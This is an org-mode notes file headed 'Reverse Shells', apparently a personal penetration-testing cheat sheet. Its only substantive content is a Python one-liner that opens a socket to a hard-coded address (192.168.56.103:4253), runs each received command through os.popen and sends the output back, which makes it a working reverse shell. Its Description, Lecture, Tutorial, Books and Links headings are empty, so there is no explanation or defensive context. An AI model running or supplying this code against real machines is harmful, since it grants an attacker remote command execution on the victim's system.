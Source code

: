#+TAGS:


* Reverse Shells
* Description
* Python
- too place inline python -c "<code_block>"
#+BEGIN_SRC py
python -c "import socket
import sys
import os
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('192.168.56.103', 4253))
while True:
    cmd = sock.recv(1024)
    out = os.popen(cmd).read()
    sock.send(out)"
#+END_SRC
* Lecture
* Tutorial
* Books
* Links
